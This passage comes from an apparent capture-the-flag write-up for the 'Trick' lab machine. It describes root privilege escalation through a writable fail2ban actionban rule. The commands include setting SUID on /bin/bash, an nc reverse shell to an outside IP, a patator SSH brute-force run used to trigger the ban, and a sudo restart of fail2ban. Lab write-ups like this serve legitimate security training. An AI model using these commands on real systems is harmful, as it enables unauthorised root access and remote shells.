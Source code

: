 ```
- The directory of fail2ban is ```/etc/fail2ban```

![](./IMG/82.png)
- There is action.d folder which has different types of configuration rules that can be applied for blocking an IP.

![](./IMG/83.png)

- About the multiport action, let's take look at ```iptables-multiport.conf```

![](./IMG/84.png)

![](./IMG/85.png)
- There are two things **actionban** and **actionunban**. If we have write access to this file, we can add our malicious command and escalate our privileges.
- Try to Edit the file

![](./IMG/86.png)
- Edit the actionban to execute the bash
```
chmod u+s /bin/bash
```
![](./IMG/87.png)
OR
```
/usr/bin/nc 10.10.14.47 9999 -e /usr/bin/bash
```
![](./IMG/88.png)
- Execute the following command to brute force the ssh, it will triger banaction in fail2ban ```(It's ok to choose any wordlists)```

```
patator ssh_login host=trick.htb user=FILE0 password=FILE1 0=/usr/share/seclists/Username/CommonAdminBase64.txt 1=/usr/share/seclists/Password/2020-200_most_used_password.txt
```
![](./IMG/89.png)

![](./IMG/90.png)

- Restart the fail2ban (It has to execute with SUDO but password no need)
```
sudo /etc/init.d/fail2ban restart
```

![](./IMG/91.png)

### Two Scenario for Escalation
#### First. Use chmod u+s /bin/bash
- The Origin file owner for ```/bin/bash```

![](./IMG/92.png)
- The file owner for ```/bin/bash``` after changed by fail2ban

![](./IMG/93.png)
- SUID escalate privilege 

![](./IMG/94.png)
- So let's try to use ```bash -p``` to get the root permission
- Check the ```id``` command

![](./IMG/95.png)
- Get root flag : ``` 8e09ad2f8777257f23de0d9d17afb36f7 ```

![](./IMG/96.png)
```